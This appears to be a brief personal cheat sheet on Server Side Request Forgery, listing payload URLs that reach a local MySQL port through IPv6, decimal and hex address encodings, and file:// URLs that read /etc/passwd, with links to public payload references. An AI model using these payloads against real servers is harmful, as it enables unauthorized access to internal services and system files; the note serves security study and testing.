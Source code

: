 # SSRF

Server Side Request forgery 




http://127.0.0.1:3306


http://[::]:3306
http://:::3306
http://2130706433:3306 (decimal)
http://0x7f000001:3306 (hex)


file:///etc/passwd
file://\/\/etc/passwd




Rferencias

[PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#file)
[hackTricks SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

https://labs.detectify.com/security-guidance/ssrf-vulnerabilities-and-where-to-find-them/

